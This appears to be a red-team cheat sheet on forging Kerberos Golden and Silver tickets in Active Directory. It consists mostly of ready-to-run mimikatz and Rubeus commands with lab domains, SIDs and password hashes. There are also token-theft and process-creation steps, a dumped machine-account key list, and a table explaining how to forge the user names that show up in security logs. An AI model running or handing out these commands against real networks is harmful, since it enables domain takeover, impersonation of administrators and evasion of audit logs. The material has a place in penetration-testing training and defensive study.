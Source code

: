 Golden Tickets
```
mimikatz # kerberos::golden /domain:offense.local /sid:S-1-5-21-4172452648-1021989953-2368502130 /rc4:8584cfccd24f6a7f49ee56355d41bd30 /user:newAdmin /id:500 /ptt
```

```
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e /user:nlamb /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /nowrap

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFLz[...snip...]MuaW8=

steal_token 5060
```


Silver Tickets
Forged for any service of the machine

|   |   |
|---|---|
|/sid:S-1-5-21-4172452648-1021989953-2368502130-1105|SID of the current user who is forging the ticket. Retrieved with `whoami /user`|
|/target:dc-mantvydas.offense.local|server hosting the attacked service for which the TGS ticket was cracked|
|/service:http|service type being attacked|
|/rc4:a87f3a337d73085c45f9416be5787d86|NTLM hash of the password the TGS ticket was encrypted with. `Passw0rd` in our case|
|/user:beningnadmin|Forging the user name. This is the user name that will appear in the windows security logs - fun.|
|/id:1155|Forging user's RID - fun|
|/ptt|Instructs mimikatz to inject the forged ticket to memory to make it usable immediately|
```
mimikatz # kerberos::golden /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 /domain:offense.local /ptt /id:1155 /target:dc-mantvydas.offense.local /service:http /rc4:a87f3a337d73085c45f9416be5787d86 /user:beningnadmin
```


Let's say we dumped Kerberos keys from Workstation 1 from a SYSTEM Beacon.

```
Session           : Service from 0
User Name         : WKSTN-1$
Domain            : DEV
Logon Server      : (null)
Logon Time        : 10/17/2023 10:31:24 AM
SID               : S-1-5-20

	 * Username : wkstn-1$
	 * Domain   : DEV.CYBERBOTIC.IO
	 * Password : (null)
	 * Key List :
	   des_cbc_md4       3ad3ca5c512dd138e3917b0848ed09399c4bbe19e83efe661649aa3adf2cb98f
	   des_cbc_md4       5192c07ee06e9264f0a7d7af5e645448
	   des_cbc_md4       5192c07ee06e9264f0a7d7af5e645448
	   des_cbc_md4       5192c07ee06e9264f0a7d7af5e645448
	   des_cbc_md4       5192c07ee06e9264f0a7d7af5e645448
	   des_cbc_md4       5192c07ee06e9264f0a7d7af5e645448

C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:cifs/wkstn-1.dev.cyberbotic.io /aes256:3ad3ca5c512dd138e3917b0848ed09399c4bbe19e83efe661649aa3adf2cb98f /user:nlamb /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /nowrap

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFXD[...]MuaW8=

steal_token
```
